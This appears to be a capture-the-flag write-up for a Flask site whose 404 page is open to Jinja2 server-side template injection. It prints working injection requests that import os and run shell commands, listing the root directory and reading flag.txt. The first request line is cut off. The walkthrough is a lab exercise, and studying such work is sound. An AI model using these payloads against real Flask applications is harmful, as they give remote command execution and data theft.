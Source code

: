 1. We accessed the challenge's hosta and got the response.

```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 79
Server: Werkzeug/1.0.1 Python/3.9.0
Date: Sat, 14 Jan 2023 16:51:33 GMT

<h1>Site still under construction</h1>
<p>Proudly powered by Flask/Jinja2</p>
```

2. Then, we tried to look for another page like `admin`.

```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 73
Server: Werkzeug/1.0.1 Python/3.9.0
Date: Sat, 14 Jan 2023 16:53:41 GMT

<h1>Error 404</h1>
<p>The page '<str>admin</str>' could not be found</p>
```

3. From the above response, we guessed that the website is vulnerable to template injection by Jinja2 and its path.

```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 70
Server: Werkzeug/1.0.1 Python/3.9.0
Date: Sat, 14 Jan 2023 16:58:49 GMT


<h1>Error 404</h1>
<p>The page '<str>49</str>' could not be found</p>
```

4. We followed [Server Side Template Injection with Jinja2](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/) to read flag file.

```
GET http://165.227.231.233:32424/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 162
Server: Werkzeug/1.0.1 Python/3.9.0
Date: Sat, 14 Jan 2023 17:07:20 GMT


<h1>Error 404</h1>
<p>The page '<str>bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
</str>' could not be found</p>
```

```
GET http://165.227.231.233:32424/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen('cat%20flag.txt').read()%7D%7D HTTP/1.1
```